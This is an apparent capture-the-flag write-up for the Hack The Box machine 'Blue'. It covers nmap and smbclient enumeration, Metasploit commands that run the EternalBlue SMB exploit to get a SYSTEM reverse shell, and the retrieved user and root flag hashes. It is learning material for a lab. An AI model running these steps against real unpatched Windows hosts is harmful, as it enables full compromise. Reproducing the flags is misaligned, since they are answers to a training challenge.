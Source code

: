 # Blue 
## IP 
> 10.10.10.40

## nmap scan

```
nmap -T4 -p- -A 10.10.10.40 -Pn
```

```a
Nmap scan report for 10.10.10.40
Host is up (0.061s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m53s, deviation: 34m37s, median: 2m04s
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-30T03:47:25+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-30T02:47:26
|_  start_date: 2021-07-30T02:42:31

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   112.12 ms 10.10.16.1
2   33.63 ms  10.10.10.40
```

## System Info 
> OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 Computer name: haris-PC

## Open Ports
       

> 445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
> 
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn

Both SMB 


> 135/tcp   open  msrpc        Microsoft Windows RPC

RPC

## rcpinfo

```rpcinfo -p 10.10.10.40```

> 10.10.10.40: RPC: Remote system error — Connection refused
## smbclient

```
smbclient -L \\\\10.10.10.40\\
```

![Image 1](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Blue/Pasted%20image%2020210729225254.png)

IPC$ ```smbclient \\\\10.10.10.40\\IPC$``` Empty

ADMIN$ ```smbclient \\\\10.10.10.40\\ADMIN$``` Access Denied 

C$ ```smbclient \\\\10.10.10.40\\C$``` Access Denied 

Users ```smbclient \\\\10.10.10.40\\Users``` Rabbit Hole

Share ```smbclient \\\\10.10.10.40\\Share``` Empty

## Metasploit 
Tried finding SMB version, I did not find any new information 

I looked online for "windows 7 professional sp1 6.1 smb exploit" and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

I tried the exploit and set the options and was able to create a shell 

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set lhost tun0
run
```

## Post Exploitation Information

```getuid``` Server username: NT AUTHORITY\SYSTEM == We are root

```sysinfo```

![Image 1](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Blue/Pasted%20image%2020210729230442.png)


#### Finding user.txt

```
cd c:\
cd Users
cd haris
cd Desktop
type user.txt
```

>
4c546aea7dbee75cbd71de245c8deea9

#### Finding root.txt

```
cd c:\
cd Users
cd Administrator
cd Desktop
type root.txt
```

>
ff548eb71e920ff6c08843ce9df4e717
